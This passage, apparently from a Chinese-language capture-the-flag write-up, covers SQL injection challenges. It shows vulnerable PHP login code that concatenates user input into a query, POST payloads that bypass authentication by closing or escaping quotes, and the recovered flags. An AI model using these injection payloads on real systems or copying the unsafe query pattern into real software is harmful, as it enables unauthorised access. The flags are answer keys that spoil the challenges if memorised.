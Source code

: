 ```php
  }else{
      echo "<script>alert('username or password can not be null!')</script>";
  }
```

直接在 user 那里闭合就好，payload

```
POST
user=admin')#&pass=kk
# kap0k{Mayb3_md5_1s_vnuseful}
```

# ez_sqli

题目提示源码泄露，爆破目录后发现 index.php.swp

```php
<?php

  function clean($str){
    if(get_magic_quotes_gpc()){
      $str=stripslashes($str);
    }
    return htmlentities($str, ENT_QUOTES);
  }

  $username = @clean($_POST['user']);
  $password = @clean($_POST['pass']);

  $query="SELECT * FROM ctf WHERE user='".$username."' AND pw='".$password."';";

  $result=mysqli_query($conn, $query);

  if(!$result || mysqli_num_rows($result) < 1){
    echo "<script>alert('Invalid password!');</script>";
  } else{
    echo $flag;
  }
>
```

单引号逃逸，过滤了引号，但是 username 和 password 都用了单引号包含

payload

```
POST
user=\&pass=||1#
# kap0k{5ingl3_9uo+e_Esca@pe_1s_s0_phunny}
```

# 脆弱的MD5()
